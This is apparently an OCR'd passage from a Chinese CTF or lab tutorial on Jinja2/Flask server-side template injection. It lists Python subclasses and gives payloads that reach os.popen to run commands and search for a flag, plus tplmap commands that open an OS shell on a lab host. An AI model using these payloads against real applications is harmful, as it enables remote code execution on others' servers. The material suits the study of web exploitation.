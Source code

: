 ```
g.formparser.MultiPartParser'>, <class 'werkzeug.wrappers.base_request.BaseRequest'>, <class 'werkzeug.wrappers.base_response.BaseResponse'>, <class 'werkzeug.wrappers.common_descriptors.CommonRequestDescriptorsMixin'>, <class 'werkzeug.wrappers.common_descriptors.CommonResponseDescriptorsMixin'>, <class 'werkzeug.wrappers.etag.ETagRequestMixin'>, <class 'werkzeug.wrappers.etag.ETagResponseMixin'>, <class 'werkzeug.wrappers.cors.CORSRequestMixin'>, <class 'werkzeug.wrappers.cors.CORSResponseMixin'>, <class 'werkzeug.useragents.UserAgentParser'>, <class 'werkzeug.useragents.UserAgent'>, <class 'werkzeug.wrappers.user_agent.UserAgentMixin'>, <class 'werkzeug.wrappers.request.StreamOnlyMixin'>, <class 'werkzeug.wrappers.response.ResponseStream'>, <class 'werkzeug.wrappers.response.ResponseStreamMixin'>, <class 'http.cookiejar.Cookie'>, <class 'http.cookiejar.CookiePolicy'>, <class 'http.cookiejar.Absent'>, <class 'http.cookiejar.CookieJar'>, <class 'werkzeug.test._TestCookieHeaders'>, <class 'werkzeug.test._TestCookieResponse'>, <class 'werkzeug.test.EnvironBuilder'>, <class 'werkzeug.test.Client'>, <class 'uuid.UUID'>, <class 'itsdangerous._json._CompactJSON'>, <class 'hmac.HMAC'>, <class 'itsdangerous.signer.SigningAlgorithm'>, <class 'itsdangerous.signer.Signer'>, <class 'itsdangerous.serializer.Serializer'>, <class 'itsdangerous.url_safe.URLSafeSerializerMixin'>, <class 'flask._compat._DeprecatedBool'>, <class 'werkzeug.local.Local'>, <class 'werkzeug.local.LocalStack'>, <class 'werkzeug.local.LocalManager'>, <class 'werkzeug.local.LocalProxy'>, <class 'dataclasses._HAS_DEFAULT_FACTORY_CLASS'>, <class 'dataclasses._MISSING_TYPE'>, <class 'dataclasses._FIELD_BASE'>, <class 'dataclasses.InitVar'>, <class 'dataclasses.Field'>, <class 'dataclasses._DataclassParams'>, <class 'difflib.SequenceMatcher'>, <class 'difflib.Differ'>, <class 'difflib.HtmlDiff'>, <class 'pprint._safe_key'>, <class 'pprint.PrettyPrinter'>, <class 'werkzeug.routing.RuleFactory'>, <class 'werkzeug.routing.RuleTemplate'>, <class 'werkzeug.routing.BaseConverter'>, <class 'werkzeug.routing.Map'>, <class 'werkzeug.routing.MapAdapter'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, <class 'flask.signals.Namespace'>, <class 'flask.signals._FakeSignal'>, <class 'flask.helpers.locked_cached_property'>, <class 'flask.helpers._PackageBoundObject'>, <class 'flask.cli.DispatchingApp'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.config.ConfigAttribute'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'werkzeug.wrappers.json._JSONModule'>, <class 'werkzeug.wrappers.json.JSONMixin'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'jinja2.ext.Extension'>, <class 'jinja2.ext._CommentFinder'>, <class 'unicodedata.UCD'>"
sub=sub.split(",")
# print(sub)
for i,item in enumerate(sub):if "os." in item:print(i,item)
​
输出：127  <class 'os._wrap_close'>
​

### 3 payload

?password={{"".__class__.__bases__[0].__subclasses__()[127].__init__.__globals__['popen']('ls').read()}}
查找flag
password={{"".__class__.__bases__[0].__subclasses__()[127].__init__.__globals__['popen']('grep  -r "book" app').read()}}

### 4 payload

?password={% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()") }}{% endif %}{% endfor %}

### 5tplmap

https://github.com/epinna/tplmap

测试是否存在注入：
python2 tplmap.py -u http://192.168.190.128:8000/?password=*
执行指令
python2 tplmap.py -u http://192.168.190.128:8000/?password=* --os-cmd “ls”
返回shell
python2 tplmap.py -u http://192.168.190.128:8000/?password=* --os-shell

# 二、SSTI/沙盒逃逸详细总结
```